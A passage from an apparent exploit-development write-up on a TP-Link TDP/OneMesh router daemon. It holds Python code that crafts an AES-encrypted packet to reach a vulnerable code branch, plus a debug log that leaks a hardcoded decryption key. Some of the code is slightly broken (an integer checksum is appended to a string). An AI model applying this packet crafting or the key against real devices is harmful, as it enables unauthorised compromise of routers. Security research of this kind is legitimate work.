 ```python
def calcChecksum(packet):
    result = zlib.crc32(packet.encode())
    print("==>  Calculated checksum : " + hex(result))
    return result
```

## Crafting The Packet

This is a test script which encrypts and send some data in a packet.

```python
def craftPacket():
    # this should return a crafted packet based on the reversed tdpPacket

    testEnc = "AAAABBBB"
    ct = AESEncrypt(testEnc)
    print("LENGTH : " + str(len(ct)))
    packet = "\x01"
    packet += "\xf0" # This is needed to get into same branch as the vuln
    packet += "\x00\x07" # to get into the switch case 6 bute the choice is x - 1 so we need 7 to get 6 for the vulnerability
    packet += "\x00\x10"# 16 since each block size is 16 
    packet += "\x01" # this is the flag and as long as it is not zero, we will pass a check 
    packet += "\x00" # Just put in some unknown data
    packet += "\xde\xad\xbe\xef" # this is the serial number. Doesnt seem to impact the flow so any is possible
    packet += calcChecksum(packet)
    packet += ct  # the encrypted cipher text
    return packet
```

Adding that to the end of the packet and sending it, we get a verbose log message confirming our encrypted payload has been successfully parsed:

```## Description

DEBUG(tdpdServer.c:719)====>tdp pkt length is 32
DEBUG(tdpdServer.c:599)====>TDP curCheckSum=750273b; newCheckSum=750273b
DEBUG(tdpdServer.c:643)====>TDP sn=deadbeef
DEBUG(tdpUciInterface.c:441)====>lanip is 192.168.0.254
DEBUG(tdpUciInterface.c:442)====>lanmask is 255.255.255.0
DEBUG(tdpdServer.c:883)====>recv ip is c0a8007d, my ip is c0a800fe
DEBUG(tdpdServer.c:890)====>opcode 7, flags 1
tpapp_aes_decrypt() 226:decrypt key is TPONEMESH_Kf!xn?gj6pMAt-wBNV_TDP 
aes_dec() 197: inlen 16, strlen(in) 16 
0x6d 0x8d 0xf6 0xed 0xb7 0x90 0x2e 0x2f 0x88 0xc7 0x42 0x32 0x7a 0x8b 0x2e 0x88 aes_dec() 203: data end 
DEBUG(tdpOneMesh.c:2899)====>plainLen is 16, plainText is AAAABBBB
DEBUG(tdpOneMesh.c:2915)====>Enter..., rcvPkt->payload is AAAABBBB
```

Now we can decide on the message that we want to encrypt. Using those fields, I have the rough template.
